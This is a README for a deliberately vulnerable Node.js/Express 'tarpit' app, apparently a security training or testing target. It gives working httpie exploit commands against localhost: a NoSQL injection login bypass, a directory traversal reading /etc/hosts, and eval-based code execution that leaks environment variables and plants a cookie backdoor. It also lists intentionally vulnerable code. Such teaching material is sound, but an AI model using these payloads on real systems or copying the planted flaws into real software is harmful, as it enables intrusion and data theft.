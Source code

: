 # NodeJS Tarpit
# New branch 1
An ExpressJS (tarpit) application using mongoDB.

I am using [httpie](https://httpie.org), an alternative to curl to trigger exploits.

## Getting started

:crossed_fingers::crossed_fingers::crossed_fingers: I hope all goes as smooth as possible

### Pre-requisites (Running without docker)

- [NodeJS](https://nodejs.org/en/) Get the latest version
- [MongoDB Community Edition](https://docs.mongodb.com/manual/administration/install-community/) Install Mongodb Community Edition and run setup provided in documentation

### Pre-requisites (Running with docker)

- Docker
- Run the command `make start`

### Setup (if not using docker)

start mongoDB server (`sudo mongod`)
start mongoDB client (`mongo`)
Insert user rows using the query

```bash
node db-init.js
```

### Installation (if not using docker)

Run `npm install` to install all dependencies for the project to run

### Run Application (if not using docker)

Run `npm run server` to start the application and you will provided a local address to open in browser

## Exploits

### No SQL Injection

Login can be exploited with the following query as the username and password are not validated

```bash
http  --print=HB POST http://localhost:8089/api/v1/login username:='{"$gt": ""}' password:='{"$gt": ""}'
```

### Directory Traversal Vulnerability

Can get access to any file on the server using the command

```bash
http GET http://localhost:8089/api/v1/image-lookup image=="/etc/hosts"
```

### Remote Code Execution

RCE exploting `eval` on server

```bash
http GET http://localhost:8089/user-input userInput=="console.log(process.env)"
```

Injecting script onto user browser

```bash
http GET http://localhost:8089/user-input userInput=="alert('You system is under our control now.')"
```

Can exploit the whole server by injecting something like the code below (https://medium.com/lift-security/in-memory-backdoor-for-node-js-express-apps-2a3f4301925b)

```bash
http GET http://localhost:8089/user-input userInput=="res.cookie('appLocals',JSON.stringify(req.app.locals))"
```

## Vulnerabilities

- [x] [directory traversal](src/Controllers/ImageLookup.js#L9)
- [x] [nosql injection](src/Controllers/Login.js#L33...L36)
- [x] [remote code execution](src/views.js#L19): [UserInput](src/Views/UserInput.pug#L6)
- [x] [sensitive data leak](src/Controllers/Login.js#L47)
- [x] [insider attack](src/server.js#L22...L31)
- [x] [business logic flaw](src/Controllers/Order.js#L69...L79)
- [x] [business logic flaw](src/Controllers/Order.js#L100...L110)
- [x] [hard coded credentials](src/Controllers/Order.js#L55...L63)
